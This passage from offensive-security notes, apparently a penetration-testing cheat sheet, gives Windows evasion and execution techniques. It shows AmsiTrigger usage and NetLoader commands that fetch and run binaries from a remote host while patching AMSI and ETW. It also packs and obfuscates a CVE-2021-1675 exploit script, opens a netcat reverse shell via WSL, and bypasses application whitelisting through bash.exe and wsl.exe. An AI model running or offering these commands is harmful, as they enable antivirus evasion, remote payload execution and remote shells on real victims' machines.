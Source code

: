 #### AmsiTrigger
- https://github.com/RythmStick/AMSITrigger
```
.\AmsiTrigger.exe -i .\shell.ps1 -f 2
```

### Offensive .NET
- https://github.com/Flangvik/NetLoader
- Load binary from filepath or URL and patch AMSI & ETW while executing
```
C:\Users\Public\Loader.exe -path http://xx.xx.xx.xx/something.exe
```

#### Use custom exe Assembyload to run netloader in memory and then load binary
```
C:\Users\Public\AssemblyLoad.exe http://xx.xx.xx.xx/Loader.exe -path http://xx.xx.xx.xx/something.exe
```

#### Random notes
```
pyinstaller.exe --onefile .\CVE-2021-1675.py
pyarmor pack --clean -e "--onefile " .\CVE-2021-1675.py
```

### Windows Subsystem for Linux WSL
- AVs which do not use Pico process APIs have no visibility of the processes executed using WSL. This provides better chances of bypass.
- With the additional Linux tooling included (like Python), WSL increases the attack surface of a machine and the opportunities to abuse the new functionality.

#### Netcat shell
```
wsl.exe mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc <IP> <PORT> 1>/tmp/backpipe
```

#### Bypass whitelisting
- In both the above cases, the Windows application will have:
  – Same permissions as the WSL process. 
  – Run as the current Windows user.
  – Uses the working directory as the WSL command prompt. That is we can access the Windows file system from WSL.
```
bash.exe -c cmd.exe
wsl.exe cmd.exe
```

## Privileges

#### Check current privileges
```
whoami /priv
```
